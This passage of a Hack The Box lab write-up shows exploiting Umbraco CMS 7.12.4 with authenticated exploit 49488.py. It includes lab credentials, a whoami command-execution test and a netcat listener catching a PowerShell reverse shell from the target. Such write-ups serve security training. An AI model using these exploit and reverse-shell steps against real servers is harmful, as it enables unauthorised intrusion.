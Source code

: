 ```sh
Umbraco CMS 7.12.4 - Remote Code Execution (Authenticated)                                                                                                                                                | aspx/webapps/49488.py
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
{% endraw %}

<br />
Transfer the python script to the local working folder.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/remote]
└─$ cp $(locate 49488.py) .
```
{% endraw %}

<br />
Run the exploit and run whoami to test command executions.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/remote]
└─$ python3 49488.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c whoami
iis apppool\defaultapppool
```
{% endraw %}

<br />
Use the Revshells to get a powershell reverse tcp one-liner.

<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/remote/revshells.png" title="Get the Revshells" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Check the listener and catch the shell.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/remote]
└─$ sudo nc -nlvp 443                                        
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.16.12] from (UNKNOWN) [10.10.10.180] 49805
whoami
iis apppool\defaultapppool
PS C:\windows\system32\inetsrv> 
```
{% endraw %}
